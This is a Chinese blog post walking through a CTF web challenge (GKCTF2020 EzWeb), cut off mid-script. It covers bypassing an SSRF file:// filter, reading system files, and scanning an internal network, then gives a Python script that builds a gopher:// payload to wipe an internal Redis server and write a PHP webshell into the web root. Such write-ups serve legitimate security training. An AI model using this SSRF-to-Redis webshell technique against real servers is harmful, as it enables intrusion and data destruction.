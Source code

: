

# BUUCTF__web题解合集（十一）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/108830826](https://blog.csdn.net/TM_1024/article/details/108830826)

## 前言

## 题目

### 1、[GKCTF2020]EZ三剑客-EzWeb

*   打开首页源代码提示`?secret` 访问出现`ifconfig`的执行结果，能得到题目的内网ip。

*   可能是SSRF题目，先尝试file协议读取文件。提示过滤，但没想到直接`file:/`或者直接加个空格`file: //`也行就能绕过，原因是因为它过滤的正则只是匹配了`file://`，然后就是猜 index.php 的路径，可以通过读取`etc/passwd`来得知www的路径为`var/www`，这也是默认路径。只有一点就是加了一层`/html/`。所以最终 index.php 的路径就是`var/www/html/index.php`

    ```
    通过 fie:/var/www/html/index.php  可以读取到过滤规则
    preg_match('/file\:\/\/|dict|\.\.\/|127.0.0.1|localhost/is', $url,$match) 
    ```

*   第二步扫描内网存活主机和开放的端口，抓包，利用 burp 的 intruder 模块爆破就行。

*   存活的主机内网地址好像就在题目的内网ip后几位，做了好几遍都是，比如我做题时，题目的ip是 173.86.90.10 ，有提示的主机就是173.86.90.12 。

*   然后就是端口，本题为6379端口，是`redis服务`的默认端口。在SSRF中，这是一个很容易遭到攻击的一个服务，了解[相关概念](https://www.cnblogs.com/zzjdbk/p/12970519.html)，也就是说往`redis`服务发送它可以识别处理的请求就能达到目的。而发送请求的方式就是利用`Gopher协议`来发送格式化字符串，了解一下[Gopher协议协议是什么](https://zhuanlan.zhihu.com/p/112055947)。

*   结合理解就是通过`Gopher协议`向`redis服务`发送符合格式的数据包可以被识别执行。执行包括写webshell、反弹shell等。问题就是怎么来转换成它可以识别的格式和传入什么。

*   所以，接下来就是一个脚本的事

```
 import urllib
protocol="gopher://"
ip="173.249.75.12"      
port="6379"
shell="\n\n<?php system(\"cat /flag\");?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(shell.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
	cmd=""
	cmd+="*"+str(len(redis_arr))
	for x in redis_arr:
		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
	cmd+=CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
```